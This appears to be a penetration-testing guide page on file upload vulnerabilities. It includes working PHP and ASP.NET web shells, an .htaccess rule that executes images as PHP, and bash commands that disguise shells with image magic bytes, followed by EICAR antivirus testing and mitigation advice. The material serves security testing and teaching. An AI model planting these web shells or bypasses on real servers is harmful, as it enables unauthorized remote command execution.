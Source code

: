 ```yaml
---
description: >-
  Upload vulnerabilities occur when an application does not properly validate or
  sanitise user-uploaded files
---
```


# Uploads

## What is an Upload Vulnerability?

Upload vulnerabilities occur when an application does not properly validate or sanitize user-uploaded files. This can lead to unauthorized code execution, file inclusion, or other security breaches. Attackers may exploit these vulnerabilities to upload malicious files, such as web shells or configuration files, that can compromise the server or application.

### Example Tests for Upload Vulnerabilities

When performing a penetration test, you can use various payloads to test for upload vulnerabilities. Below are some example tests and methodologies to identify such vulnerabilities.

### **Example Payloads and Techniques**

1. **Uploading a Web Shell**
   *   **PHP Web Shell**: Upload a simple PHP file with the following content:

       ```php
       <?php system($_GET['cmd']); ?>
       ```
   *   **ASP Web Shell**: Upload an ASP file with the following content:

       {% code overflow="wrap" %}
       ```aspnet
       <% @Page Language="C#" %>
       <script runat="server">
       void Page_Load(object sender, EventArgs e) {
           if (Request.QueryString["cmd"] != null) {
               System.Diagnostics.Process.Start("cmd.exe", "/c " + Request.QueryString["cmd"]);
           }
       }
       </script>
       ```
       {% endcode %}
2.  **Uploading .htaccess File**

    *   To change the behaviour of the web server, you can upload an `.htaccess` file:

        ```bash
        AddType application/x-httpd-php .jpg
        ```

    This allows you to upload a PHP file disguised with a `.jpg` extension and have it executed as PHP.
3. **Bypassing File Type Restrictions**
   * **Polyglot Files**: Create a file that can be interpreted as both an image and a script. For example, an image with PHP code hidden in comments.
   * **MIME Type Bypass**: Change the MIME type of the file to bypass content-type checks.
4. **Using Alternate Extensions**
   * Upload files with different extensions that might still be interpreted as scripts by the server, such as `.phtml`, `.phar`, or `.shtml`.
5. **Configuration Files**
   * **Apache Configuration (.htaccess)**: Upload an `.htaccess` file to enable execution of other uploaded files.
   * **Tomcat Configuration**: Modify the `web.xml` file to include malicious servlet mappings.

## Testing Methodology

1. **Identify Upload Points**:
   * Locate file upload functionalities in the application, such as profile picture uploads, document uploads, etc.
2. **Attempt File Uploads**:
   * Use various payloads to attempt uploading different file types and observe the server's response.
   * Monitor the server's directory structure to see where files are stored and if they are accessible.
3. **Analyze Responses**:
   * Check if the uploaded files are executable by accessing them directly via a web browser.
   * Use intercepting proxies like Burp Suite or OWASP ZAP to manipulate file uploads and bypass client-side restrictions.
4. **Monitor Server Behavior**:
   * Observe any changes in server behaviour, error messages, or execution of uploaded files.

### References

* [PayloadsAllTheThings - Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md)
* [PayloadsAllTheThings - Jetty RCE](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Jetty%20RCE/JettyShell.xml)
* [PayloadsAllTheThings - Extension ASP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.aspx)

## Remote code execution (RCE) using file uploads

If you need to quickly make RCE code from bash disguised as an image for an LFI/malicious upload.

{% code overflow="wrap" %}
```bash
echo -n -e '\xFF\xD8\xFF\xE0.' > shell.jpg
echo -n -e '\x89\x50\x4E\x47.' > shell.png
```
{% endcode %}

### Example bypass upload restrictions.&#x20;

<figure><img src="../../.gitbook/assets/1669794207400.jfif" alt=""><figcaption></figcaption></figure>

## Antivirus testing / sanitisation of files

Antivirus testing and file sanitization are crucial steps to ensure that uploaded files do not contain malicious content. By integrating antivirus solutions and file sanitization processes, you can prevent the upload of harmful files that could compromise your system.

### **EICAR Test Files**

EICAR (European Institute for Computer Antivirus Research) provides standard test files that can be used to test the effectiveness of antivirus software. These files are harmless and are designed to trigger antivirus alerts.

To test your antivirus and file sanitisation mechanisms, you can use a ZIP file containing EICAR test files. The ZIP file is password-protected to prevent accidental execution. The password for the ZIP file is "password".

**Download the ZIP file containing EICAR test files**:

{% file src="../../.gitbook/assets/EICAR-password-is-password.zip" %}

#### **Contents of the ZIP file**:

1. **eicar.com**: A standard EICAR test file.
2. **eicar (copy 1).txt**: A copy of the EICAR test file with a different name.
3. **eicar.exe**: The EICAR test file with an `.exe` extension.
4. **eicarfileupload.png**: A PNG image containing the EICAR test string.
5. **eicarfileupload.png\_original**: The original PNG image.
6. **eicar.jpeg**: The EICAR test file with a `.jpeg` extension.
7. **eicar.pdf**: The EICAR test file with a `.pdf` extension.
8. **eicar.perl**: The EICAR test file with a `.perl` extension.
9. **eicar.png**: The EICAR test file with a `.png` extension.
10. **eicar.py**: The EICAR test file with a `.py` extension.
11. **eicar.tar.gz**: The EICAR test file compressed in a `.tar.gz` archive.
12. **eicar.txt**: The standard EICAR test file in a `.txt` format.

#### **Example Tests**

1. **Upload the ZIP File**:
   * Upload the EICAR ZIP file to the application.
   * Check if the antivirus detects and blocks the upload.
2. **Extract and Scan**:
   * If the file is uploaded successfully, the server should extract the contents of the ZIP file.
   * The antivirus should scan the extracted files and block or quarantine any malicious content.
3. **Sanitization Process**:
   * Implement a sanitization process to clean or remove any detected threats.
   * Ensure the application notifies the user if their upload contained malicious content and was sanitized.

### Testing Methodology

1. **Identify Upload Points**:
   * Locate file upload functionalities in the application, such as profile picture uploads, document uploads, etc.
2. **Attempt File Uploads**:
   * Use various payloads to attempt uploading different file types and observe the server's response.
   * Monitor the server's directory structure to see where files are stored and if they are accessible.
3. **Analyse Responses**:
   * Check if the uploaded files are executable by accessing them directly via a web browser.
   * Use intercepting proxies like Burp Suite or OWASP ZAP to manipulate file uploads and bypass client-side restrictions.
4. **Monitor Server Behaviour**:
   * Observe any changes in server behaviour, error messages, or execution of uploaded files.

#### Conclusion

Upload vulnerabilities can lead to severe security breaches if not properly mitigated. Always ensure user inputs are sanitised and validated before processing. Implement proper file type checks, size limits, and use safe directories for storing uploaded files. Regular security testing and updates to the application code can help prevent such vulnerabilities.
